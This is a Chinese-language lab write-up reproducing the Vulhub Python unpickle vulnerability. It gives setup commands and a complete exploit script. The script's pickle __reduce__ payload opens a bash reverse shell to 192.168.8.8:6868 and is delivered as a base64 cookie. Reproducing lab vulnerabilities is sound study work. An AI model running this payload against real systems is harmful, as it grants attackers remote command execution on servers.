



# Python unpickle 造成任意命令执行漏洞


| 说明     | 内容                                 |
| -------- | ------------------------------------ |
| 漏洞编号 |                                      |
| 漏洞名称 | Python unpickle 造成任意命令执行漏洞 |
| 漏洞评级 |                                      |
| 影响范围 |                                      |
| 漏洞描述 |                                      |
| 修复方案 |                                      |


### 1.1、漏洞描述

序列化

    把对象（变量）从内存中变成可存储或传输的过程称为序列化，在Python中叫pickling
    序列化优点：
    持久保存状态：内存是无法永久保存数据的，当程序运行了一段时间，我们断电或者重启程序，内存中关于这个程序的之前的一段数据（有结构）都被清空了，但是在断电或重启程序之前将程序当前内存中所有的数据都保存下来（保存到文件中），以便于后期程序执行能够从文件中载入之前的数据，然后继续执行
    跨平台数据数据交互：序列化时不仅可以把序列化后的内容写到磁盘，还可以通过网络传输到别的机器上，如果收发双方约定好使用一种序列化格式，那么便打破了平台/语言差异化带来的限制，实现了跨平台的数据交互
pickle模块只能用于python，并且可能不同版本的Python彼此都不兼容，因此，只能用Pickle保存不重要的数据。
 pickle的好处是，可以 存储python中的所有数据类型，包括对象，而json不可以



**漏洞原理**：

- http://rickgray.me/2015/09/12/django-command-execution-analysis.html
- https://www.leavesongs.com/PENETRATION/zhangyue-python-web-code-execute.html

### 1.2、漏洞等级

### 1.3、影响版本

### 1.4、漏洞复现

#### 1、基础环境

Path：Vulhub/python/unpickle

---

启动测试环境：

```bash
sudo docker-compose build
sudo docker-compose up -d
```

访问`http://your-ip:8000/`

显示`Hello {username}!`。username是取Cookie变量user，对其进行base64解码+反序列化后还原的对象中的“username”变量，默认为“Guest”，伪代码：`pickle_decode(base64_decode(cookie['user']))['username'] or 'Guest'`。




#### 3、漏洞验证

直接利用vulhub自带的exp.py来复现，设置好参数后，运行脚本，可以反弹shell

```python
#!/usr/bin/env python3
import requests
import pickle
import os
import base64


class exp(object):
    def __reduce__(self):
        s = """python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.8.8",6868));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'"""
        return (os.system, (s,))


e = exp()
s = pickle.dumps(e)

response = requests.get("http://192.168.8.8:8000/", cookies=dict(
    user=base64.b64encode(s).decode()
))
print(response.content)
```

kali开启监听`6868`端口


